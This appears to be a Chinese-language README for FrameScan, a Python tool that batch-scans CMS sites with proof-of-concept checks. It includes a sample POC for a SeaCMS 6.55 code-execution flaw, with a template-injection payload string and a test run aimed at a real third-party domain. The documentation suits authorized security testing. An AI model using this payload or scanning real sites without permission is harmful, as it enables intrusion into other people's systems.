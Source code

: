 # FrameScan

## 工具简介

FrameScan是一款python3编写的简易的cms漏洞检测框架，支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。

## 支持平台

- Windows  

- Linux  

- MAC（请自测）

## 工具特点

- 单URL批量检测
- 单URL单漏洞检测
- 单URL指定CMS检测
- 多URL单漏洞检测
- 单URL单漏洞检测
- 单URL指定CMS检测

详细参数如下：

```
    -u          Url                      URL地址
    -f          Load urls file           文件路径
    -m          Use poc module           使用单个POC
    -c          Specify CMS              指定CMS类型
    -s          Search poc keywords      查找关键词漏洞
    -c          List CMS POC             列出指定CMS漏洞
    -l          List avalible pocs       列出所有POC
    -r          Reload POC               重新加载POC
    -h          Get help                 帮助信息
```


## 使用方法

下载项目

```python
git clone https://github.com/qianxiao996/FrameScan
```

安装依赖（不需要！）

```
脚本主要依赖于以下模块（无需安装）
import sys,os,re
from color import *
import sqlite3,requests
```

运行脚本

```
>python3 webcrack.py
     _____                         ____
    |  ___| __ __ _ _ __ ___   ___/ ___|  ___ __ _ _ __
    | |_ | '__/ _` | '_ ` _ \ / _ \___ \ / __/ _` | '_ \
    |  _|| | | (_| | | | | | |  __/___) | (_| (_| | | | |
    |_|  |_|  \__,_|_| |_| |_|\___|____/ \___\__,_|_| |_|

    Options:                          Code by qianxiao996
    -----------------------------------------------------
    -u          Url                      URL地址
    -f          Load urls file           文件路径
    -m          Use poc module           使用单个POC
    -c          Specify CMS              指定CMS类型
    -s          Search poc keywords      查找关键词漏洞
    -lc         List CMS POC             列出指定CMS漏洞
    -l          List avalible pocs       列出所有POC
    -r          Reload POC               重新加载POC
    -h          Get help                 帮助信息
    -----------------------------------------------------
    FrameScan  V1.0              Blog:blog.qianxiao996.cn
```

单URL批量检测

```
python3 FrameScan.py -u URL
```

单URL单漏洞检测（POC_METHOS可以用 -l、-s、-lc进行查询）

```
python3 FrameScan.py -u URL -m POC_METHOS
```

单URL指定CMS检测

```
python3 FrameScan.py -u URL -m POC_METHOS
```

多URL批量检测

```
python3 FrameScan.py -f 文件名
```

多URL单漏洞检测

```
python3 FrameScan.py -f 文件名  -m  POC_METHOS
```

多URL指定CMS检测

```
python3 FrameScan.py -f 文件名  -c  CMS类型
```

## 自定义POC模板

代码中采用自定义彩色输出，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
sys.path.append('../../')
from color import *
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请尽量使用彩色字体 printGreen、 printBlue、printYellow函数
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            result = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if result.status_code == 200 and 'code' in result.text:
                printGreen("[+]Success:存在seacms 6.55 代码执行漏洞！\nPayload:\nURL:%s\nPOST:%s"%(url_path,payload))
                sys.exit(1)
            else:
                printBlue("[-]Info:不存在seacms 6.55 代码执行漏洞")
                sys.exit(1)
        except Exception as e:
            # print (e)
            printYellow("[-]Warning:"+self.__class__.__name__+" ==>可能不存在漏洞")
            sys.exit(1)

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    testVuln.run()
```

## 鸣谢

POC多数来源于
AngelSword:https://github.com/Sch01ar/AngelSword
部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！
**请勿用于非法用途！否则自行承担一切后果**
